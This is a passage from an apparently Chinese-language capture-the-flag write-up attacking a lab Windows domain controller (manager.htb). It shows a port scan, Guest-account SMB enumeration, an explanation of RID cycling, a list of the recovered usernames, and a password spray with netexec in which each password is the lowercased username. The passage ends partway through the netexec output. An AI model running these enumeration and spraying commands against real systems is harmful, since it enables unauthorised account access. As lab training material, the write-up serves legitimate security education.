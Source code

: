 ```bash
Open 10.10.11.236:5985
Open 10.10.11.236:9389
Open 10.10.11.236:49667
Open 10.10.11.236:49689
Open 10.10.11.236:49690
Open 10.10.11.236:49693
Open 10.10.11.236:49725
Open 10.10.11.236:49801
Open 10.10.11.236:52587
```

## 02. 使用Guest账户枚举 SMB服务

在没有任何账户的情况下，尝试使用Windows内置的Guest账户枚举SMB文件共享

发现虽然启用了 `Guest` 账户，但是只有默认共享 `IPC$` 的读取权限，没有什么有用的信息。

然后我们使用 `Guest` 账户进行RID爆破，枚举域用户名：

> [!note]
> RID爆破(RID Cycling)的原理是：由于 RIDs 是连续的，所以攻击者可以暴力破解或猜测 RIDs 和 SIDs 来枚举域对象

攻击过程如下

{{< asciinema file="rid_cycling.cast" poster="npt:0:24" markers="0.5: 探测匿名账户是否启用, 11.1: 探测来宾账户是否启用, 24.3:RID爆破拿到用户名, 15"  >}}

其中 `SidTypeUser` 代表用户，我们可以得到一份用户清单 `usernames.txt`

```
Administrator
Guest
krbtgt
DC01$
Zhong
Cheng
Ryan
Raven
JinWoo
ChinHae
Operator
```

然后我们简单尝试一下常见弱口令（偏脑洞，需要积累此操作）

1. 密码与用户名相同 --> 失败
2. 密码是用户名大写 --> 失败
3. 密码是用户名小写 --> 成功

```bash
kali@kali[~]$ cat usernames.txt | awk '{ print  tolower($0) }' > passwords.txt
kali@kali[~]$ netexec smb 10.10.11.236 -u usernames.txt -p passwords.txt --no-bruteforce --continue-on-success
SMB         10.10.11.236    445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:manager.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.236    445    DC01             [-] manager.htb\Administrator:administrator STATUS_LOGON_FAILURE
SMB         10.10.11.236    445    DC01             [-] manager.htb\Guest:guest STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\krbtgt:krbtgt STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\DC01$:dc01$ STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Zhong:zhong STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Cheng:cheng STATUS_LOGON_FAILURE 
SMB         10.10.11.236    445    DC01             [-] manager.htb\Ryan:ryan STATUS_LOGON_FAILURE 
```